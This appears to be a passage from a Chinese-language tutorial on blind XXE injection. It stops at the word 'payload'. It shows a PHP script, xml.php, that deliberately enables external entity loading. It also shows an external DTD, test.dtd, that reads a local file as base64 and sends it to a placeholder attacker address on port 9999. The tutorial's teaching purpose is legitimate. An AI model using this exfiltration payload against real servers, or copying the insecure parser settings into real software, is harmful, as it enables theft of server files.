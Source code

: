 ![img](XXE.assets/modb_20211021_18ac9b56-3260-11ec-b086-fa163eb4f6be.png)

#### 二、无回显XXE（XXE盲打）

**xml.php**

```
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

**test.dtd**

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/1.txt">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://IP:9999?p=%file;'>">
```

**payload：**
